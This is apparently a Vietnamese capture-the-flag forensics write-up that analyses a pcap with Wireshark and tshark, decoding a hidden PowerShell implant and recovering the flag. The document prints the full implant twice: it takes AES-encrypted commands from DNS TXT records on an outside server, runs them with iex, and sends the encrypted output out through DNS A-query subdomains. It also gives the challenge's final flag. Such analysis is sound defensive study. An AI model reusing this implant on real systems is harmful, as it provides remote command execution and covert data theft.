# Challenge Automation

## 1. Đầu vào challenge

Đầu vào challenge cung cấp 1 file:

- `capture.pcap`

Mở file bằng **Wireshark**, sau đó vào phần **Statistics** để quan sát tổng quan loại traffic xuất hiện trong pcap.

Từ đây thấy được có **35 packets HTTP**.



Đồng thời, từ mục **Conversations** có thể xác nhận IP của máy chủ bị tấn công nhiều khả năng là:

```text
10.0.2.15
```

Vì địa chỉ này xuất hiện xuyên suốt trong toàn bộ conversation.



---

## 2. Hướng phân tích ban đầu

Thử dùng filter:

```text
http
```

Để lọc riêng traffic HTTP. Khi kiểm tra, thấy có **2 traffic lạ** đáng chú ý.



Tiếp tục mở **HTTP flow** thì thu được một đoạn text đã được **mã hóa bằng Base64**.



---

## 3. Decode phần Base64

Sau khi decode chuỗi Base64, thu được đoạn PowerShell sau:

```powershell
function Create-AesManagedObject($key, $IV) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        }
        else {
            $aesManaged.IV = $IV
        }
    }
    if ($key) {
        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Create-AesKey() {
    $aesManaged = Create-AesManagedObject $key $IV
    [System.Convert]::ToBase64String($aesManaged.Key)
}

function Encrypt-String($key, $unencryptedString) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($unencryptedString)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    $aesManaged.Dispose()
    [System.BitConverter]::ToString($fullData).replace("-","")
}

function Decrypt-String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
    $IV = $bytes[0..15]
    $aesManaged = Create-AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor();
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
    $aesManaged.Dispose()
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
}

filter parts($query) { $t = $_; 0..[math]::floor($t.length / $query) | % { $t.substring($query * $_, [math]::min($query, $t.length - $query * $_)) }} 
$key = "a1E4MUtycWswTmtrMHdqdg=="
$out = Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189 | Select-Object -Property Strings;
for ($num = 0 ; $num -le $out.Length-2; $num++) {
    $encryptedString = $out[$num].Strings[0]
    $backToPlainText = Decrypt-String $key $encryptedString
    $output = iex $backToPlainText; $pr = Encrypt-String $key $output | parts 32
    Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189
    for ($ans = 0; $ans -lt $pr.length-1; $ans++) {
        $domain = -join($pr[$ans], ".windowsliveupdater.com")
        Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
    }
    Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189
}
```
---

## 4. Phân tích các hàm chính

### 4.1. `Create-AesManagedObject($key, $IV)`

Hàm này dùng để cấu hình một object **AES** với các tham số:

- **AES-256-CBC**
- block size `128`
- key size `256`
- padding kiểu `Zeros`

### Kiến thức ngoài lề

**AES-256-CBC** là một cơ chế mã hóa đối xứng dùng để bảo vệ dữ liệu bằng cách biến dữ liệu gốc thành dữ liệu đã mã hóa. Muốn giải mã lại thì phải có đúng khóa và IV tương ứng.

---

### 4.2. `Create-AesKey()`

```powershell
function Create-AesKey() {
    $aesManaged = Create-AesManagedObject $key $IV
    [System.Convert]::ToBase64String($aesManaged.Key)
}
```

Hàm này tạo ra một khóa AES rồi trả về ở dạng **Base64**.

---

### 4.3. `Encrypt-String(...)` và `Decrypt-String(...)`

Hai hàm này dùng chính khóa AES để:

- **mã hóa**
- **giải mã**

dữ liệu gửi qua lại giữa nạn nhân và máy chủ điều khiển.

- `Decrypt-String` dùng để giải mã lệnh attacker gửi xuống
- `Encrypt-String` dùng để mã hóa kết quả thực thi trước khi gửi ngược ra ngoài

---

## 5. Phân tích phần thực thi

Phần quan trọng nhất nằm ở đoạn:

```powershell
filter parts($query) { $t = $_; 0..[math]::floor($t.length / $query) | % { $t.substring($query * $_, [math]::min($query, $t.length - $query * $_)) }} 
$key = "a1E4MUtycWswTmtrMHdqdg=="
$out = Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189 | Select-Object -Property Strings;
for ($num = 0 ; $num -le $out.Length-2; $num++) {
    $encryptedString = $out[$num].Strings[0]
    $backToPlainText = Decrypt-String $key $encryptedString
    $output = iex $backToPlainText; $pr = Encrypt-String $key $output | parts 32
    Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189
    for ($ans = 0; $ans -lt $pr.length-1; $ans++) {
        $domain = -join($pr[$ans], ".windowsliveupdater.com")
        Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
    }
    Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189
}
```

### Ý nghĩa của đoạn này

- cắt chuỗi được mã hóa thành từng đoạn nhỏ **32 ký tự**
- dùng biến `$key` để giải mã lệnh nhận từ máy chủ điều khiển
- dùng `iex` để biến text thành lệnh rồi thực thi trên hệ thống
- mã hóa kết quả thực thi
- gửi ngược kết quả ra ngoài qua các truy vấn DNS

### Cơ chế nhận lệnh

Script thực hiện truy vấn:

```powershell
Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189
```

Tức là dùng **DNS TXT record** làm kênh nhận lệnh từ attacker.

Vòng lặp:

```powershell
for ($num = 0 ; $num -le $out.Length-2; $num++)
```

Sẽ duyệt qua từng giá trị TXT đã nhận được.

Sau đó:

- giải mã từng lệnh
- chạy bằng `iex`
- mã hóa kết quả
- chia nhỏ thành nhiều khối
- gửi từng khối ra ngoài dưới dạng truy vấn DNS A

---

## Kiến thức ngoài lề

### Một số loại DNS record thường gặp

- **A (Address)**  
  Tên miền trỏ về địa chỉ IPv4

- **MX (Mail Exchange)**  
  Xác định mail server nhận email cho tên miền

- **TXT (Text)**  
  Lưu thông tin dạng văn bản

Trong bài này:

- **TXT record** được dùng để nhận lệnh
- **A record** được dùng để đẩy dữ liệu phản hồi ra ngoài

---

## 6. Lọc phần DNS TXT

Bây giờ dùng filter để lọc các gói DNS TXT:

```text
dns.qry.type == 16
```


Sau đó mở **UDP stream** để xem nội dung.



Tại đây có thể lấy chuỗi đã mã hóa, sau đó **decrypt** và tiếp tục **decode Base64**.



Kết quả thu được **part 1** của flag:

```text
HTB{y0u_c4n_
```


---

## 8. Tìm phần dữ liệu còn lại

Tiếp tục kiểm tra các traffic khác.

```bash
tshark -r capture.pcap -Y 'dns.qry.name contains "windowsliveupdater.com" && ip.dst == 10.0.2.15 && !(dns.qry.type == 16)' -T fields -e dns.qry.name
```


Thấy có các truy vấn chưa phải `start` / `end`, nhưng khi mở trực tiếp **UDP stream** thì không có nội dung rõ ràng.

Từ đó bắt đầu nghi ngờ rằng phần dữ liệu còn lại đang được gửi qua chính **tên miền truy vấn DNS**, nằm giữa mốc:

- `start.windowsliveupdater.com`
- `end.windowsliveupdater.com`

---

## 9. Lọc nhanh bằng `tshark`

Dùng lệnh sau để lọc nhanh các truy vấn DNS liên quan:

```bash
tshark -r capture.pcap -Y 'dns.qry.name contains "windowsliveupdater.com" && ip.dst == 10.0.2.15 && !(dns.qry.type == 16)' -T fields -e dns.qry.name | sed 's/\.windowsliveupdater\.com$//'
```



Từ các block thu được, tiếp tục **decrypt từng khối** thì xuất hiện **part 2** của flag.



---

## 10. Flag

Ghép hai phần lại, ta được flag cuối cùng:

```text
HTB{y0u_c4n_4utom4t3_but_y0u_c4nt_h1de}
```

---

## 11. Tóm tắt flow phân tích

```text
capture.pcap
   |
   v
mở bằng Wireshark
   |
   v
Statistics / Conversations
   |
   v
nhận ra có HTTP + DNS đáng chú ý
   |
   v
lọc HTTP
   |
   v
phát hiện đoạn Base64
   |
   v
decode ra PowerShell script
   |
   v
nhận ra script dùng AES + DNS làm kênh C2
   |
   v
lọc DNS TXT
   |
   v
decrypt + decode Base64
   |
   v
lấy part 1 của flag
   |
   v
lọc tiếp các truy vấn DNS A giữa start / end
   |
   v
dùng tshark để trích tên miền truy vấn
   |
   v
decrypt từng khối
   |
   v
lấy part 2 của flag
   |
   v
ghép lại thành flag hoàn chỉnh
```

---

